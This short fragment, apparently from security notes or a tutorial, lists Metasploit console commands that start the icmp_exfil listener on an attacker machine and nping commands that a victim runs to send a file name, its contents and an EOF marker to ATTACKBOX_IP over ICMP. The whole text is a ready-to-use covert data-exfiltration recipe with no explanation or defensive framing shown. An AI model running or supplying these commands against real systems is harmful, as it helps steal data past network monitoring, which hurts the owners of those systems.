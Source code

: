 Attacker

	msf > use auxiliary/server/icmp_exfil
	msf > set BPF_FILTER icmp and not src [Attacker IP]
	msf > set INTERFACE eth0
	msf > run

Victim

	sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"
	sudo nping --icmp -c 1 ATTACKBOX_IP --data-string [data]
	sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"

